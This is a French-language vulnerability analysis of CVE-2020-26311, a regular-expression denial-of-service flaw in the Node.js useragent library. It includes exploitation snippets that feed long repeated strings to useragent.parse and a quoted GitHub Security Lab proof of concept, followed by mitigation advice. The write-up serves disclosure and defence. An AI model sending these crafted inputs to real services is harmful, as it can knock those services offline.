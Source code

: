 ```yaml
---
description: 20 Nov 2024
---
```


# CVE-2020-26311

> Voici une analyse de la vulnérabilité **CVE-2020-26311** de type Regular expression Denial of Server (ReDoS) affectant la librairie useragent ([https://github.com/3rd-Eden/useragent](https://github.com/3rd-Eden/useragent)).

## Description

* **Vendeur :** N/A
* **Produit :** useragent ([https://github.com/3rd-Eden/useragent](https://github.com/3rd-Eden/useragent))
* **Version(s) impactée(s) :** \*
* **Type de vulnérabilité :** Regular expression Denial of Service (ReDoS) ([CWE-1333 - Inefficient Regular Expression Complexity](https://cwe.mitre.org/data/definitions/1333.html))

Toutes les versions (la dernière version est la 2.3.0) de useragent sont vulnérables à une faille de type ReDoS lors du parsing du User-Agent.

<figure><img src="../../.gitbook/assets/image (340).png" alt=""><figcaption></figcaption></figure>

## Analyse de la vulnérabilité

Le parsing du User-Agent permet d'extraire des informations telles que le nom du user-agent, sa version, ou celle du système d'exploitation, en s'appuyant sur des expressions régulières :&#x20;

{% code lineNumbers="true" %}
```javascript
const useragent = require('useragent');
const sampleUserAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36";
const agent = useragent.parse(sampleUserAgent);

console.log("Navigateur:", agent.family);
console.log("Version du navigateur:", agent.toVersion());
console.log("Système d'exploitation:", agent.os.family);
console.log("Version OS:", agent.os.toVersion());
```
{% endcode %}

```
Navigateur: Chrome
Version du navigateur: 130.0.0
Système d'exploitation: Windows
Version OS: 10.0.0
```

Ces très nombreuses (c'est-à-dire un peu moins de 1000) expressions régulières sont présentes dans le fichier `regexps.js` du dossier `lib` :&#x20;

{% code lineNumbers="true" %}
```javascript
var parser;

exports.browser = Object.create(null);

parser = Object.create(null);
parser[0] = new RegExp("(Rival IQ, rivaliq.com)");
...
parser[0] = new RegExp("(ESPN)[%20| ]+Radio/(\\d+)\\.(\\d+)\\.(\\d+) CFNetwork");
...
parser[0] = new RegExp("(Antenna)/(\\d+) CFNetwork");
...
parser[0] = new RegExp("(TopPodcasts)Pro/(\\d+) CFNetwork");
...
parser[0] = new RegExp("(MusicDownloader)Lite/(\\d+)\\.(\\d+)\\.(\\d+) CFNetwork");
...
```
{% endcode %}

Malheureusement, certaines de ces expressions régulières sont vulnérables aux attaques ReDoS, ce qui peut entraîner une interruption du service. En voici quelques-unes que j'ai identifiées :&#x20;

```javascript
// Ligne 187 du fichier regexps.js
new RegExp("Google.*/\\+/web/snippet");

// Exploitation
const useragent = require('useragent');
const sampleUserAgent = 'Google'.repeat(1000);
const agent = useragent.parse(sampleUserAgent);
```

```javascript
// Ligne 215 du fichier regexps.js
new RegExp("/((?:Ant-|)Nutch|[A-z]+[Bb]ot|[A-z]+[Ss]pider|Axtaris|fetchurl|Isara|ShopSalad|Tailsweep)[ \\-](\\d+)(?:\\.(\\d+)|)(?:\\.(\\d+)|)");

// Exploitation
const useragent = require('useragent');
const sampleUserAgent = 'NANA'.repeat(2000) + '0';
const agent = useragent.parse(sampleUserAgent);
```

```javascript
// Ligne 348 du fichier regexps.js
new RegExp("Mozilla.*Mobile.*(Instagram).(\\d+)\\.(\\d+)\\.(\\d+)");

// Exploitation
const useragent = require('useragent');
const sampleUserAgent = 'MozillaMobilem'.repeat(250) + '\n';
const agent = useragent.parse(sampleUserAgent);
```

De plus, le ticket GitHub décrivant la vulnérabilité intègre également une preuve de concept ([https://securitylab.github.com/advisories/GHSL-2020-312-redos-useragent/](https://securitylab.github.com/advisories/GHSL-2020-312-redos-useragent/)) :&#x20;

```javascript
var useragent = require('useragent');

var attackString = "HbbTV/1.1.1CE-HTML/1.9;THOM	" + new Array(20).join("SW-Version/");
// A copy of the regular expression
var reg = /(HbbTV)\/1\.1\.1.*CE-HTML\/1\.\d;(Vendor\/)*(THOM[^;]*?)[;\s](?:.*SW-Version\/.*)*(LF[^;]+);?/;

var request = 'GET / HTTP/1.1\r\nUser-Agent: ' + attackString + '\r\n\r\n';
console.log(useragent.parse(request).device);
```

## Correction

La correction de ce type de vulnérabilités n'est pas toujours simple, car elle implique de modifier les expressions régulières vulnérables pour en réduire la complexité, tout en veillant à ce qu'elles continuent à détecter correctement le motif recherché.

### Tester l'expression régulière

Une première chose faisable lors de l'écriture d'une expression régulière, peut être d'utiliser un outil permettant d'en tester la sensibilité au ReDoS, tel que l'outil ReDoS checker ([https://devina.io/redos-checker](https://devina.io/redos-checker)) :&#x20;

<figure><img src="../../.gitbook/assets/image (342).png" alt=""><figcaption></figcaption></figure>

### Limiter le nombre de caractères

En général, l'exploitation d'une attaque ReDoS requiert une chaîne de caractères relativement longue, en particulier lorsqu'elle est de type polynomial. Une mesure de défense en profondeur consiste donc à limiter le nombre de caractères de la chaîne à tester.

### Mettre en place une limite de backtracking

Certaines technologies permettent de mettre en place une limite du nombre de backtracks pouvant être effectués. C'est ce que propose par exemple l'option `pcre.backtrack_limit` en PHP, qui possède une valeur par défaut de 1 000 000.

## Ressources

* [https://nvd.nist.gov/vuln/detail/CVE-2020-26311](https://nvd.nist.gov/vuln/detail/CVE-2020-26311)
* [https://github.com/3rd-Eden/useragent](https://github.com/3rd-Eden/useragent)
* [https://securitylab.github.com/advisories/GHSL-2020-312-redos-useragent/](https://securitylab.github.com/advisories/GHSL-2020-312-redos-useragent/)
